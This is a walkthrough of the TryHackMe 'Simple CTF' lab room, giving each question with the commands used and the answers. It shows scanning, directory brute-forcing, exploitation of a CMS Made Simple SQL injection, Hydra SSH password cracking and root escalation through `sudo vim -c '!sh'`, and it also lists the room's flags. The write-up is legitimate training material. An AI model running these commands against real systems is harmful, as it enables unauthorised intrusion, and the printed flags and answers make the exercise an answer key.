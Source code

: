 # [Simple CTF](https://tryhackme.com/room/easyctf)
Beginner level ctf.

## Task 1 - Simple CTF

### Question: How many services are running under port 1000?
* Run a network scan to discover any active services

```nmap -sV [IP address]```
```
Answer: 2
```
---
### Question: What is running on the higher port?
```
Answer: ssh
```
---
### Question: What's the CVE you're using against the application?
* Search for any directories

```gobuster dir -u 10.10.213.243 -w /usr/share/wordlists/rockyou.txt ```
* Found the directory ```/simple/``` that looks interesting
  * Looking around the page, we find the website running ```CMS Made Simple version 2.2.8```
  * Under News, it shows that a news module was installed
* Search for this in a CVE database
```
Answer: CVE-2019-9053
```
---
### Question: To what kind of vulnerability is the application vulnerable?
```
Answer: SQLi
```
---
### Question: What's the password?
* We can use the information about the CVE to find and download the appropriate exploit on ```exploit-db.com```
  * ```CMS Made Simple < 2.2.10 - SQL Injection``` 

```python -u [URL ADDRESS] -w /usr/share/wordlist/rockyou.txt```
* Tried running this command, but ran into issues
* Had to place parentheses around all print statements
* Program still fails, but after uncovering the following information:
  * Password Salt: ```1dac0d92e9fa6bb2```
  * Username: ```Mitch```
  * Email: ```admin@admin.com```
* We can use Hydra to attempt to crack the password

```hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.44.205:2222 -t 5```
* This reveals the password ```secret```
```
Answer: secret
```
---
### Question: Where can you login with the details obtained?
* From the network scan, we know there are three active services
* We used one of those ports for cracking the password we obtained
```
Answer: ssh
```
---
### Question: What's the user flag?
* Using the credentials we gathered, we can ssh into the network

```ssh mitch@10.10.44.205 -p2222```
```
Answer: G00d j0b, keep up!
```
---
### Question: Is there any other user in the home directory? What's its name?
* Climb up the current directory
```
Answer: sunbath
```
---
### What can you leverage to spawn a privileged shell?
* Running the command ```sudo -l``` gives us some information:

  ```(root) NOPASSWD: /usr/bin/vim```
```
Answer: vim
```
---
### Question: What's the root flag?
* Running a Google search to find an exploitation, we find this command:
  
```sudo vim -c '!sh'```
* After running the command, ```whoami``` reveals that we escalated privileges
* Navigate to the root directory
```
Answer: W3ll d0n3. You made it!
```